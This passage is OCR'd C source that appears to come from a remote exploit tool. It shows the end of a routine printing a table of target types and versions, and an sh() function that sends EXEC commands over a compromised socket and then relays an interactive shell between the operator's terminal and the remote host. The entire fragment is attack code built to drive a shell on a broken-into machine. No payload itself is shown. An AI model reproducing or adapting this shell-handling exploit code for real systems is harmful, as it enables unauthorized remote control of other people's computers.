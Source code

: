       printf("\nAvailable types:\n");
      printf("---------------------------------------------------\n");
      for(i = 0; targets[i].description; i++) {
        fprintf(stdout, "%d\t%s\t%s\t%s\n", targets[i].num, targets[i].description,targets[i].
    versions,targets[i].type);
      }
      printf("\n\n");
      exit(0);
    }

    int sh(int sockfd) {
      char snd[1024], rcv[1024];
      fd_set rset;
      int maxfd, n,test;

      strcpy(snd, EXEC "\n");
      write(sockfd, snd, strlen(snd));

      read(sockfd,rcv,7);
      fflush(stdout);

      strcpy(snd, EXEC2 "\n");
      write(sockfd, snd, strlen(snd));

      /* Main command loop */
      for (;;) {
        FD_SET(fileno(stdin), &rset);
        FD_SET(sockfd, &rset);

        maxfd = ( ( fileno(stdin) > sockfd )?fileno(stdin):sockfd ) + 1;
        select(maxfd, &rset, NULL, NULL, NULL);

        if (FD_ISSET(fileno(stdin), &rset)) {
          bzero(snd, sizeof(snd));
          fgets(snd, sizeof(snd)-2, stdin);
          write(sockfd, snd, strlen(snd));
        }

        if (FD_ISSET(sockfd, &rset)) {
          bzero(rcv, sizeof(rcv));

          if ((n = read(sockfd, rcv, sizeof(rcv))) == 0) {
        /* exit */
        return 0;
          }

          if (n < 0) {
        perror("read");
        return 1;
          }

          fputs(rcv, stdout);
          fflush(stdout);
        }
      } /* for(;;) */
    }
